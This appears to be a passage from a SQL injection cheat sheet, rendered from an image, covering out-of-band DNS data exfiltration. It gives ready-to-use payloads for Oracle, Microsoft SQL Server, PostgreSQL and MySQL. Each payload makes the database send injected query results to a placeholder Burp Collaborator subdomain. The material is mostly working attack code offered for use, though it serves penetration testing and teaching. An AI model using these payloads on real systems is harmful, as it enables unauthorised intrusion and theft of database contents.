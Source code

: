 |            | SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'                                                                                                                                 |

## DNS lookup with data exfiltration
You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

| Database   | Payload                                                                                                                                                                                                                          |
|------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Oracle     | SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|\|(SELECT YOUR-QUERY-HERE)\|\|'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual |
| Microsoft  | declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')                                                                                        |
| PostgreSQL | create OR replace function f() returns void as $$                                                                                                                                                                                |
|            | declare c text;                                                                                                                                                                                                                  |
|            | declare p text;                                                                                                                                                                                                                  |
|            | begin                                                                                                                                                                                                                            |
|            | SELECT into p (SELECT YOUR-QUERY-HERE);                                                                                                                                                                                          |
|            | c := 'copy (SELECT '''') to program ''nslookup '\|\|p\|\|'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';                                                                                                                          |
|            | execute c;                                                                                                                                                                                                                       |
|            | END;                                                                                                                                                                                                                             |
|            | $$ language plpgsql security definer;                                                                                                                                                                                            |
|            | SELECT f();                                                                                                                                                                                                                      |
| MySQL      | The following technique works on Windows only:                                                                                                                                                                                   |
|            | SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'                                                                                                                                             |